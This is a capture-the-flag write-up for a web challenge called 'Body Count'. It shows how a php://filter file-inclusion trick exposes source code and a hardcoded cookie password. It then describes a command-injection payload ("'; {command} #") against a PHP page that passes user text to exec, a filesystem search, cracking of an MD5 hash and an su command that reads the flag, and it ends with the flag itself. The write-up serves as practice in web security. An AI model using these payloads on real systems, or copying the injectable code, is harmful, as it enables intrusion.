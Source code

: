 ```yaml
---
layout: post
title: "Body Count"
author: "anishbadhri"
tags: ['Web']
---
```


Here's a character count service for you!

[http://chall.csivit.com:30202](http://chall.csivit.com:30202)

## Solution

On observing, there's a cookie called `password` with value as `PASSWORD`. 

### Finding value of password cookie

On going to `robots.txt`, the file `checkpass.php` is disallowed. To view this file, we can make use of php inbuilts. [http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=checkpass.php](http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=checkpass.php). This returns a base64 encoding of `checkpass.php`. 

**checkpass.php**
```php
<?php
$password = "w0rdc0unt123";
// Cookie password.
echo "IMPORTANT!!! The page is still under development. This has a secret, do not push this page.";

header('Location: /');
``` 

Thus, the password is `w0rdc0unt123`. Setting this as the cookie value sets a new webpage.


### Finding how word count is executed and accessing shell

This first needs access to the contents of `wc.php`. [http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php](http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php).

**wc.php**
```php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>wc as a service</title>
    <style>
        html,
        body {
            overflow: none;
            max-height: 100vh;
        }
    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: black; color: white; display: flex; flex-direction: column; justify-content: center;">
    <?php
    ini_set('max_execution_time', 5);
    if ($_COOKIE['password'] !== getenv('PASSWORD')) {
        setcookie('password', 'PASSWORD');
        die('Sorry, only people from csivit are allowed to access this page.');
    }
    ?>

    <h1>Character Count as a Service</h1>
    <form>
        <input type="hidden" value="wc.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="text" rows=30 cols=100></textarea><br />
        <input type="submit">
    </form>
    <?php
    if (isset($_GET["text"])) {
        $text = $_GET["text"];
        echo "<h2>The Character Count is: " . exec('printf \'' . $text . '\' | wc -c') . "</h2>";
    }
    ?>
</body>

</html>
```
The command is executed as `printf '{text}' | wc -c'`. This can be exploited by passing the value of `text` as `'; {command} #` where command can be any linux shell command.
This basically 
- closes the quotes on `printf`
- adding `;` for a new command 
- adding `#` to comment the rest of the line
However, this only prints the last line of result of command. This can be worked around with by appending ` | head n1` to the command which enables to view first line instead and changing the `head` parameter can view every result line by line.

### Locating flag

This can be done with the find command
```sh
find / -iname "*flag*" 
```
This return the location of the flag as `/ctf/system/of/a/down/flag.txt`. However, trying to `cat` this file fails. The reason why can be seen on executing 
```sh
ls -l /ctf/system/of/a/down/flag.txt
```
The file doesn't allow any user other than `root` and `ctf` to view the file. Thus this needs the password of `root` or `ctf`.

On further searching of the entire file system, a file `/ctf/README` can be found. Viewing this file returns
```txt
My password hash is 6f246c872cbf0b7fd7530b7aa235e67e.
```
With a few reversing attempts, the original string resulting in this hash is `csictf`.
Running the `cat` command as the user `ctf` returns the flag.
```sh
echo "csictf" | su ctf -c "cat /ctf/system/of/a/down/flag.txt" 
```

## Flag
```
csictf{1nj3ct10n_15_p41nfu1}
```